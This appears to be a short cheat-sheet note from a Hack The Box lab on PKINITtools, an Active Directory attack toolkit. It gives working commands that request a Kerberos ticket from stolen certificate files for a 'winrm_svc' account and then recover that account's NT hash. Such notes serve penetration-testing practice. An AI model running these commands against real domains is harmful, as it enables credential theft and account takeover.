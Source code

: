 # pkinittools

## Overview

https://github.com/dirkjanm/PKINITtools

## Usage

Request a TGT using pem files:

```shell
python ~/workspace/tools/PKINITtools/gettgtpkinit.py -cert-pem kBxhoPQf_cert.pem -key-pem kBxhoPQf_priv.pem fluffy.htb/winrm_svc winrm_svc.ccache
```

Get NT Hash with AS-REP encryption key and TGT

```shell
export KRB5CCNAME=winrm_svc.ccache
faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" python ~/workspace/tools/PKINITtools/getnthash.py -key b76d8e7f24c77e01edb9c11497618b8ee5b90ec609707949b48ca0732e771e70 fluffy.htb/winrm_svc
```